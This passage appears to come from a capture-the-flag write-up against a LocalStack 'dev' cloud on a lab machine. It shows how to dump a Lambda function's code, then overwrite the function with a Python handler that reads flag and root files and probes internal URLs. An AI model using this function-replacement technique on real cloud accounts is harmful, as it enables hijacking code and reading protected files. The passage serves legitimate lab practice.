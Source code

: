 ### Method A — Read the original Lambda code
1) **If** `Code.ZipFile` is inline (some LocalStack builds):  
   ```bash
   aws --endpoint-url http://cloud.htb lambda get-function --function-name accserv-dev > /tmp/func.json
   jq -r '.Code.ZipFile' /tmp/func.json | base64 -d > /tmp/accserv.zip
   unzip -l /tmp/accserv.zip
   unzip -p /tmp/accserv.zip lambda_function.py | sed -n '1,200p'
   ```
2) **If** an object store is available: enumerate S3 buckets/keys and download the ZIP.  
   *(In this challenge, S3 wasn’t provisioned — 400s).*

3) Once code is available, identify the expected event shape or the exact `/flag` path and **invoke** accordingly.

### Method B — (Used here) Replace the Lambda code on LocalStack (CTF-safe)
Because this is a **LocalStack “dev” cloud**, updating Lambda code is allowed and does not touch real AWS.

**Lightweight “flag finder” handler:**
```python
# /tmp/lambda_function.py
import os, json, urllib.request

def fetch(url, timeout=2):
    try:
        req = urllib.request.Request(url, headers={"User-Agent":"accserv-dev"})
        with urllib.request.urlopen(req, timeout=timeout) as r:
            return {"status": r.status, "body": r.read(300).decode(errors="ignore")}
    except Exception as e:
        return {"error": str(e)}

def lambda_handler(event, context):
    candidates = ["/flag","/flag.txt","/root/flag","/root/flag.txt",
                  "/var/www/html/flag","/var/www/html/flag.txt",
                  "/opt/flag","/opt/flag.txt","/tmp/flag","/tmp/flag.txt"]
    found = {}
    for p in candidates:
        try:
            if os.path.exists(p):
                with open(p,"r",errors="ignore") as f:
                    found[p]=f.read().strip()[:300]
        except Exception as e:
            found[p]=f"ERR: {e}"
    urls = ["http://127.0.0.1/flag","http://cloud.htb/flag",
            "http://cloud.htb/dev/flag","http://cloud.htb/beta/flag",
            "http://cloud.htb/api/flag","http://10.129.198.137/flag"]
    http = {u: fetch(u) for u in urls}
    return {"statusCode":200, "body": json.dumps({"found":found,"http":http})}
```
